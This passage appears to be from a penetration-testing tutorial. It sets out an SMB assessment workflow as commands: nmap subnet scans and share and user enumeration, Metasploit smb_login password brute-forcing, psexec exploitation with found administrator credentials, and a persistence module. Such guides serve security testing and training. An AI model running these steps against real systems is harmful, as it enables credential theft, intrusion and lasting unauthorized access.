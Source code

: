 This is the most effective workflow for comprehensive SMB security assessment.

#### **Step 1: Network Discovery and Service Identification**
```bash
# Comprehensive network discovery
nmap -sS -p 139,445 192.168.1.0/24
# Identify all systems with SMB services

# Detailed service enumeration
nmap -sC -sV -p445 target_list.txt
# Service versions and default script scanning

# SMB-specific enumeration
nmap --script smb-enum-shares,smb-enum-users,smb-protocols target_ip
# Comprehensive SMB information gathering
```

**Intelligence Gathering Benefits:**
- **Network Mapping:** Identify all SMB-enabled systems in environment
- **Service Fingerprinting:** Determine exact SMB versions and configurations
- **Share Enumeration:** Discover accessible file shares and permissions
- **User Discovery:** Find valid usernames for credential attacks

#### **Step 2: Systematic Credential Assessment**
```bash
# Import nmap results into Metasploit
msfconsole -q
db_import nmap_results.xml
hosts
services

# Targeted credential attacks based on discoveries
use auxiliary/scanner/smb/smb_login
set RHOSTS file:/tmp/smb_targets.txt
set USER_FILE /usr/share/wordlists/custom_users.txt
set PASS_FILE /usr/share/wordlists/passwords.txt
set THREADS 10
exploit

# Document successful credentials for team use
creds
# View discovered credentials database
```

**Strategic Advantages:**
- **Database Integration:** Maintain comprehensive target and credential database
- **Efficient Targeting:** Focus attacks on confirmed SMB services
- **Team Coordination:** Share credential discoveries across assessment team
- **Progress Tracking:** Monitor assessment progress and coverage

#### **Step 3: Systematic Exploitation and Access**
```bash
# Prioritize targets with administrative access
use exploit/windows/smb/psexec
set RHOSTS target_with_admin_creds
set SMBUser Administrator
set SMBPass discovered_password
exploit

# Establish persistent access methods
use post/windows/manage/persistence
set SESSION 1
exploit

# Information gathering from compromised systems
```